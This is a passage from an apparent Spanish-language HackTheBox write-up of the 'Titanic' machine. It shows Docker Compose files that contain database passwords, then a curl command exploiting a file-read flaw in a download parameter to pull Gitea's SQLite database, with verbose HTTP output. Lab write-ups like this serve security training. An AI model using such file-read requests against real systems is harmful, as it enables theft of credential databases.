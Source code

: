 El primer repositorio contiene dos archivos de Docker Compose con los siguientes contenidos:

```yaml
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```
{: file="gitea/docker-compose.yml" }

```yaml
version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always
```
{: file="mysql/docker-compose.yml" }

El segundo archivo tiene una contraseña pero no nos sirve de absolutamente nada, pero el primero si nos sirve para algo interesante: nos dice que el directorio de datos del Gitea está en el directorio personal de `developer`, al cual nosotros tenemos acceso. En dicho directorio, si Gitea está utilizando SQLite como driver de base de datos, estará el archivo del mismo. Y viendo si existe, efectivamente:

```bash
❯ curl -v "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db"
* Host titanic.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.55
*   Trying 10.10.11.55:80...
* Connected to titanic.htb (10.10.11.55) port 80
* using HTTP/1.x
> GET /download?ticket=/home/developer/gitea/data/gitea/gitea.db HTTP/1.1
> Host: titanic.htb
> User-Agent: curl/8.13.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Thu, 19 Jun 2025 19:45:42 GMT
< Server: Werkzeug/3.0.3 Python/3.10.12
< Content-Disposition: attachment; filename="/home/developer/gitea/data/gitea/gitea.db"
< Content-Type: application/octet-stream
< Content-Length: 2084864
< Last-Modified: Thu, 19 Jun 2025 19:07:17 GMT
```